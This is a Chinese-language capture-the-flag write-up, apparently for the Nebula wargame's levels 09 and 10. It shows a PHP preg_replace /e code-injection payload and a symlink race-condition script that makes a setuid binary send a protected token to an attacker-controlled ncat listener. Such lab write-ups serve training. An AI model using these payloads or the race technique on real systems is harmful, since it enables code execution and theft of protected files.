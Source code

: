 ![08](https://s2.loli.net/2021/12/17/irc9RutBzyMflPw.png)

# Level09

1. 注意到代码

   `$contents = preg_replace("/(\[email (.*)\])/e", "spam(\"\\2\")", $contents);`

   preg_replace第一参数使用了**/e模式**，preg_replace的第二个参数会作为代码执行。

2. 用php中的system函数执行外部的shell命令，将`[email "{${system(getflag)}}"]`写入/tmp/atk

3. ./flag19 /tmp/atk 获得flag

![09](https://s2.loli.net/2021/12/17/xtDB1MIp5dhWG6j.png)

# Level10



1. flag10程序判断用户是否拥有读该文件的权限, 如果有, 通过18888端口发送给指定host

2. kali机永久监听18888端口, 并将内容输出到log: ncat -lp 18888 -k >> log

3. 编写条件竞争脚本switch.sh

   ```shell
   #!/bin/sh
   while true
   do
   	 ln -s /home/level10/null /home/level10/fake
   	 unlink /home/level10/fake
   	 ln -s /home/flag10/token /home/level10/fake
   	 unlink /home/level10/fake
   done
   ```

4. 编写运行脚本start.sh

   ```shell
   #!/bin/sh
   while true
   do
   	/home/flag10/flag10 /home/level10/fake 192.168.1.114
   done
   ```

5. 以1优先级后台运行switch.sh, 以19优先级运行start.sh

   ```shell
   $ nice -n1 sh switch.sh &
   $ nice -n19 sh start.sh
   ```

6. 在kali机查看log, 得到token( b3c5-6d82-7sfc), 登录flag10, 获得flag

![10](https://s2.loli.net/2021/12/17/cPBrLyX13I879Vw.png)
